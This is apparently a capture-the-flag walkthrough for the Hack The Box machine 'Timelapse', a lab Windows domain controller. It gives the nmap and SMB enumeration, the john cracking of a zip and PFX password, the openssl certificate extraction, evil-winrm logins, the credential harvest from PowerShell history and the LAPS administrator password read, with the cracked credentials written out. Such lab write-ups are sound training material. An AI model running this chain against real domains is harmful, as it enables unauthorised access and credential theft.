



# Timelapse
## Enumeration
- `nmap`
```
└─$ nmap -p- -Pn 10.10.11.152 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 17:00 BST
Nmap scan report for 10.10.11.152 (10.10.11.152)
Host is up (0.094s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
56502/tcp open  unknown
```
```
└─$ nmap -sV -sC -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,46793,49674,49696,56502 -Pn 10.10.11.152 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 17:06 BST
Nmap scan report for 10.10.11.152 (10.10.11.152)
Host is up (0.17s latency).

PORT      STATE    SERVICE           VERSION
53/tcp    open     domain            Simple DNS Plus
88/tcp    open     kerberos-sec      Microsoft Windows Kerberos (server time: 2023-08-25 00:05:47Z)
135/tcp   open     msrpc             Microsoft Windows RPC
139/tcp   open     netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open     ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ldapssl?
3268/tcp  open     ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open     globalcatLDAPssl?
5986/tcp  open     ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
|_ssl-date: 2023-08-25T00:07:22+00:00; +7h59m24s from scanner time.
9389/tcp  open     mc-nmf            .NET Message Framing
46793/tcp filtered unknown
49667/tcp open     msrpc             Microsoft Windows RPC
49674/tcp open     ncacn_http        Microsoft Windows RPC over HTTP 1.0
49696/tcp open     msrpc             Microsoft Windows RPC
56502/tcp open     msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-08-25T00:06:44
|_  start_date: N/A
|_clock-skew: mean: 7h59m23s, deviation: 0s, median: 7h59m22s
```
- Add `dc01.timelapse.htb` and `timelapse.htb` to `/etc/hosts`
- `crackmapexec`
```
└─$ crackmapexec smb dc01.timelapse.htb --shares -u test -p ''
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [+] timelapse.htb\test: 
SMB         timelapse.htb   445    DC01             [+] Enumerated shares
SMB         timelapse.htb   445    DC01             Share           Permissions     Remark
SMB         timelapse.htb   445    DC01             -----           -----------     ------
SMB         timelapse.htb   445    DC01             ADMIN$                          Remote Admin
SMB         timelapse.htb   445    DC01             C$                              Default share
SMB         timelapse.htb   445    DC01             IPC$            READ            Remote IPC
SMB         timelapse.htb   445    DC01             NETLOGON                        Logon server share 
SMB         timelapse.htb   445    DC01             Shares          READ            
SMB         timelapse.htb   445    DC01             SYSVOL                          Logon server share 

```
- `smbclient`
```
└─$ smbclient -N //10.10.11.152/Shares      
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 16:39:15 2021
  ..                                  D        0  Mon Oct 25 16:39:15 2021
  Dev                                 D        0  Mon Oct 25 20:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 16:48:42 2021

                6367231 blocks of size 4096. 1270621 blocks available
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 20:40:06 2021
  ..                                  D        0  Mon Oct 25 20:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 16:46:42 2021

                6367231 blocks of size 4096. 1270528 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (3.1 KiloBytes/sec) (average 3.1 KiloBytes/sec)
smb: \Dev\> cd ..
smb: \> ls
  .                                   D        0  Mon Oct 25 16:39:15 2021
  ..                                  D        0  Mon Oct 25 16:39:15 2021
  Dev                                 D        0  Mon Oct 25 20:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 16:48:42 2021
cd Help
                6367231 blocks of size 4096. 1269473 blocks available
smb: \> cd HelpDesk
smb: \HelpDesk\> ls
  .                                   D        0  Mon Oct 25 16:48:42 2021
  ..                                  D        0  Mon Oct 25 16:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 15:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 15:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 15:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 15:57:44 2021

                6367231 blocks of size 4096. 1269439 blocks available
smb: \HelpDesk\> 

```

## Foothold
- `winrm_backup.zip` is protected with password
```
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

- Let's crack it
  - `zip2john winrm_backup.zip > winrm.hash`
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt winrm.hash    
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-08-24 17:22) 4.545g/s 15769Kp/s 15769Kc/s 15769KC/s surkerior..suppamas
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Unzip
```
└─$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx 
```
- Okay, we can follow this [post](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)
  - If we try it, it's protected with password
```
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
Mac verify error: invalid password?
```
- Let's crack this one too
  - `pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.hash`
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt legacyy_dev_auth.hash    
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:58 DONE (2023-08-24 17:28) 0.01705g/s 55112p/s 55112c/s 55112C/s thuglife06..thug211
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Let's try extracting key again
```
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```
- Decrypt it
```
└─$ openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth-decrypted.key
Enter pass phrase for legacyy_dev_auth.key:
writing RSA key
```
- Extract certificate
```
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
```
- Result
```
└─$ ls -lha legacyy_dev_auth* 
-rw------- 1 kali kali 1.3K Aug 24 17:33 legacyy_dev_auth.crt
-rw------- 1 kali kali 1.7K Aug 24 17:33 legacyy_dev_auth-decrypted.key
-rw-r--r-- 1 kali kali 5.0K Aug 24 17:27 legacyy_dev_auth.hash
-rw------- 1 kali kali 2.1K Aug 24 17:29 legacyy_dev_auth.key
-rwxr-xr-x 1 kali kali 2.5K Oct 25  2021 legacyy_dev_auth.pfx
```
- Let's connect using `evil-winrm`
  - `evil-winrm -S -k legacyy_dev_auth-decrypted.key -c legacyy_dev_auth.crt -i timelapse.htb`



## User
- Enumeration


- Let's check `Powershell History`
  - We have some creds `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`



- Let's connect via `evil-winrm`
  - `evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S`


## Root
- Enumerate
  - `svc_deploy` is in `LAPS_Readers` group


- Let's read `LAPS` password
  - `Get-AdComputer -Identity DC01 -property 'ms-mcs-admpwd'`
  - `Administrator:e&5O591f8p30N8+C@yIY+3AE`


- Let's connect and get our flag


